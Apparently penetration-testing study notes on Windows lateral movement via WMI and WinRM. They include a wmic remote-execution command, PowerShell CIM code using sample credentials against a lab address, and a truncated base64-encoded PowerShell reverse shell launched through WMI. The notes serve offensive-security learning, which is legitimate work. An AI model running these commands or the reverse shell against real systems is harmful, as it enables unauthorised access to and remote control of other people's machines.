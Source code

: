 
Cracking  passwords and be time consuming and fruitless and kerberos and NTLM do not use the clear text passwords directly and native tools from MS do not support authentication using password hash.

So, we require different techniques.

- WMI, WinRS and WinRM
- PsExec
- Pass the hash
- DCOM

### WMI and WinRM


##### WMI

WMI is the `Windows Management Instrumentation`. An object-oriented feature that facilitates task automation. It creates processes via the `Create` method from `Win32_Process class`. It communicates through RPC port 135 for remote access and users higher range port for session data.

example using WMI to remotely start the calculator application using CMD:
```
wmic /node:target_ip /user:username /password:userpass process call create "calc"
```

System processes and services always run in session 0[1](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361) as part of session isolation, which was introduced in Windows Vista. Because the WMI Provider Host is running as a system service, the newly created processes through WMI are also spawned in session 0.

Using powershell:

first create a PSCredential object:
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

then create a Common Information Model (CIM):
```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

then:
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```


we can then use the above example to instead spawn a reverse shell by instead setting command to a powershell reverse shell:
```
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
```
